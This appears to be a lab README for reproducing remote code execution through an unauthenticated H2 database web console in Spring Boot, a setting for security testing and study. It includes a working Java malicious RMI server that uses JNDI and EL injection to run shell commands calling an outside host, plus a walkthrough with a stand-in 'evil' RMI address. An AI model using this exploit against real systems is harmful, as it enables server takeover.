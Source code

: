 # H2 Database Web Console Unauthorized Access

[中文版本（Chinese Version）](README.zh-cn.md)

H2 database is a embedded in-memory database in Java. Springboot with h2 database comes with a web management page which has no authentication if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

This management page supports using JNDI to load the JDBC driver, which can lead to remote code execution via remote class loading.

References: 

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>

## Setup

Start a spring-boot with h2 database and embedded tomcat:

```
docker-compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default. 

## Vulnerability Reproduce

Reference to *[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)*, we should use `org.apache.naming.factory.BeanFactory` and `javax.el.ELProcessor` to launch the external process after Java 8u191:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

Simply use this tool *[JNDI](https://github.com/JosephTribbianni/JNDI)* to exploit the vulnerability. First, set up the target command to `touch /tmp/success` at `config.properties`:

![](3.png)

Then start the `JNDI-1.0-all.jar`, is will be listening on `0.0.0.0:23456`. fill in the form based on these pieces of information:

![](1.png)

`javax.naming.InitialContext` is the JNDI factory class name, URL `rmi://evil:23456/BypassByEL` is your evil RMI address.

Evil RMI server received the requests:

![](2.png)

`touch /tmp/success` has been execute successfully:

![](4.png)

